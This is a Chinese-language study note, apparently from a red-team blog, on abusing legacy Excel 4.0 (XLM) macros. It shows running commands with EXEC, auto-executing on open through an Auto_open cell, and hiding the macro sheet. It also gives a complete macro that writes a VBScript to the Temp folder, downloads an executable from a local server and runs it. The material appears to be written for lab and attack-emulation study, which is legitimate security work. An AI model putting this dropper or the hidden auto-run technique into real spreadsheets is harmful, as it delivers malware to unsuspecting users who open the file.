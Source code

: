 # Excel4.0宏

> [利用Excel 4.0宏执行任意命令 | AdminTony's Blog](http://www.admintony.com/Excel-4-0-macros.html)
>
> [atomic-red-team/atomics/T1204.002/T1204.002.md at 2dcdc27df73cc343d308e7c0afa37f2d77aa02e1 · Ayusummer/atomic-red-team (github.com)](https://github.com/Ayusummer/atomic-red-team/blob/2dcdc27df73cc343d308e7c0afa37f2d77aa02e1/atomics/T1204.002/T1204.002.md#atomic-test-6---excel-4-macro)
>
> ---
>
> [使用 Excel 4.0 宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/office/使用-excel-4-0-宏-ba8924d4-e157-4bb2-8d76-2c07ff02e0b8)
>
> ---
>
> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

Excel 4.0 宏是一种在 Microsoft Excel 中使用的宏语言，它是 Excel 中较早期版本的一部分，通常用于自动化和批处理任务。Excel 4.0 宏提供了一组命令和函数，可以执行各种操作，包括计算、数据操作、格式设置等。

Microsoft很早就使用VBA宏（Visual Basic for Applications）来代替Excel 4.0宏技术，这导致Excel 4.0宏并不为大众所熟知。并且Excel 4.0宏存放在Excel 97 - 2003格式（.xls）文件中。

默认情况下 office 是禁用宏的, 要启用 Excel4.0宏支持需要

`打开 Excel -> 文件 -> 选项 -> 信任中心 -> 信任中心设置 -> 宏设置 -> 启用所有宏`

![image-20240422170036218](http://cdn.ayusummer233.top/DailyNotes/202404221700959.png)

创建一个新的 Excel 工作簿, `右键 Sheet1 -> 插入 -> MS Excel 4.0 宏表`

![image-20240422170503721](http://cdn.ayusummer233.top/DailyNotes/202404221706938.png)

![image-20240422170635598](http://cdn.ayusummer233.top/DailyNotes/202404221706681.png)

`确定` 后可以看到多了一张名为 `宏1` 的表, 可以在其中输入 XLM宏, 然后可以单击任何单元格并在此单元格和竖直下面的单元格中输入宏公式

![image-20240422170717659](http://cdn.ayusummer233.top/DailyNotes/202404221707820.png)

XLM 宏有如下特征:

- **函数式宏**：XLM 宏通常以函数的形式出现在 Excel 单元格中。这些函数以等号（=）开头，后面跟随一系列的参数和函数名。例如：`=HALT()`。
- **内置函数**：XLM 提供了一系列内置函数，用于执行各种操作，如文件操作、计算、格式设置等。例如：`HALT()` 用于停止执行宏，`GOTO()` 用于跳转到指定位置等。
- **参数**：XLM 函数可以带有参数，用于指定函数执行时所需的信息。参数可以是常量、单元格引用或者其他函数的返回值。
- **宏表**：除了存储在单元格中，XLM 宏还可以存储在 Excel 的宏表中。宏表是一种特殊的工作表，其中的内容被解释为宏代码而不是普通的数据。你可以在 Excel 中创建宏表，并在其中编写 XLM 宏代码。
- **简单的语法**：相比于 VBA（Visual Basic for Applications），XLM 的语法相对简单。它没有像 VBA 那样的完整的编程语言功能，但足以完成一些基本的自动化任务。

例如写一个调起计算器的 XLM:

```
=EXEC("calc.exe")
=HALT()
```

然后可以右键宏起始单元格选择 `执行`

![image-20240422173251380](http://cdn.ayusummer233.top/DailyNotes/202404221732515.png)

![image-20240422173504260](http://cdn.ayusummer233.top/DailyNotes/202404221735383.png)

![image-20240422173531256](http://cdn.ayusummer233.top/DailyNotes/202404221735362.png)

---

## 自动执行

如果希望在打开工作簿时自动运行宏（类似于VBA宏的 `Sub AutoOpen()`）可以将宏的第一个单元格重命名为`Auto_open`

![image-20240422174158340](http://cdn.ayusummer233.top/DailyNotes/202404221741405.png)

保存时选择 `Excel 97-2003 工作簿(*.xls)`

![image-20240422174251880](http://cdn.ayusummer233.top/DailyNotes/202404221742953.png)

再打开这个文件时会自动执行宏

![image-20240422174334700](http://cdn.ayusummer233.top/DailyNotes/202404221743787.png)

---

## 隐藏表单

![image-20240422174355987](http://cdn.ayusummer233.top/DailyNotes/202404221743058.png)

![image-20240422174404534](http://cdn.ayusummer233.top/DailyNotes/202404221744642.png)

即便隐藏了, 设置自动执行的宏也会自动执行

![image-20240422174438706](http://cdn.ayusummer233.top/DailyNotes/202404221744835.png)

---

## 加载 shellcode

> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

---

## 下载与执行远程文件

虽然 XLM 不支持网络操作和文件下载, 但是可以通过新建并写入一个 VBScript 并运行来实现下载与运行

例如

```
Win10Pro
procexp.exe
atomic_redteam_x4m_exec.vbs
=IF(ISNUMBER(SEARCH("64",GET.WORKSPACE(1))), GOTO(A5),)
=FOPEN("C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"", 3)
=FWRITELN(A5, "url = ""http://127.0.0.1:8000/download/msedge.exe""")
=FWRITELN(A5, "")
=FWRITELN(A5, "Set winHttp = CreateObject(""WinHTTP.WinHTTPrequest.5.1"")")
=FWRITELN(A5, "winHttp.Open ""GET"", url, False")
=FWRITELN(A5, "winHttp.Send")
=FWRITELN(A5, "If winHttp.Status = 200 Then")
=FWRITELN(A5, "Set oStream = CreateObject(""ADODB.Stream"")")
=FWRITELN(A5, "oStream.Open")
=FWRITELN(A5, "oStream.Type = 1")
=FWRITELN(A5, "oStream.Write winHttp.responseBody")
=FWRITELN(A5, "oStream.SaveToFile ""C:\Users\"&A1&"\AppData\Local\Temp\"&A2&""", 2")
=FWRITELN(A5, "oStream.Close")
=FWRITELN(A5, "End If")
=FCLOSE(A5)
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"")
=WAIT(NOW()+"00:00:05")
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A2&"")
=HALT()
```

![image-20240422190714511](http://cdn.ayusummer233.top/DailyNotes/202404221907695.png)

![image-20240422191356514](http://cdn.ayusummer233.top/DailyNotes/202404221913585.png)

![image-20240422191427234](http://cdn.ayusummer233.top/DailyNotes/202404221914321.png)

---















